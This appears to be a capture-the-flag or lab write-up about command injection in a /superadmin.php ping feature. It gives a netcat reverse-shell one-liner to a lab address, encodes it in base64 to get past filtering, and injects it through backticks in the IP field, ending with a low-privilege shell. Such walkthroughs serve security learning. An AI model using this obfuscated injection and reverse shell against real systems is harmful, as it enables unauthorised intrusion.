


::: page
# command injection {#command-injection .title}

\

We saw that the **/superadmin.php** is executing :

**ping -c 3 \[IP ADDRESS\]**

We tried to **pipeline the IP along with a one liner reverse shell** but
we werent able to catch a shell, maybe it was **blocking nc and
/bin/bash**.

So we used a different approach :

First we generate a **base64 payload** (**scrambled characters so that
the server wont block**) :

**echo -n \"nc.traditional -e /bin/bash 192.168.56.1 4444\" \| base64**

Here we **print the string** and **directly pass it to base64 to
encode**.

NOTE : **-n flag is important** because it tells to **print this text,
but do not add a hidden newline character at the end**. When **converted
to base64** the **hidden newline changes**

**the final scrambled string completely,** whicb will **break the
exploit** on the target server.

New we format the **injection string** :

**192.168.56.1 \| \`echo
\"bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNTYuMSA0NDQ0\" \|
base64 -d\`**

**Backticks** :Backticks tell linux to **run the command inside here
first, and whatever the result is, execute that on the command line.**

**-d for decoding the string**.

The server **decoded the string in its own memory, turning it back into
a live netcat command.**We **caught this using netcat**.

**We got a low level user !!!!**
:::
